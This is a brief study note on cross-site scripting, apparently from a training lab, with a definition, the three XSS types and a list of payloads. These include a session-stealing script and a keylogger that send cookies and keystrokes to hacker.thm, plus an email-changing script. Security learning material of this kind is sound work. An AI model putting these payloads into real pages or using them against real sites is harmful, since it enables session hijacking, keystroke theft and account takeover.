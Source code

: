

What is cross-site scripting, XSS?
> Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application. 

XSS Proof Of Concept
> <script>alert(1);</script>

What are the types of XSS attacks?
- Reflected XSS
- Stored XSS, AKA second-order or persistent XSS
- DOM-based XSS

Cross-site Scripting Use-case
- "onmouseover="alert(1)
- '-alert(1)-'
- Session Stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
- Key Logger <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
- Business Logic <script>user.changeEmail('attacker@hacker.thm');</script>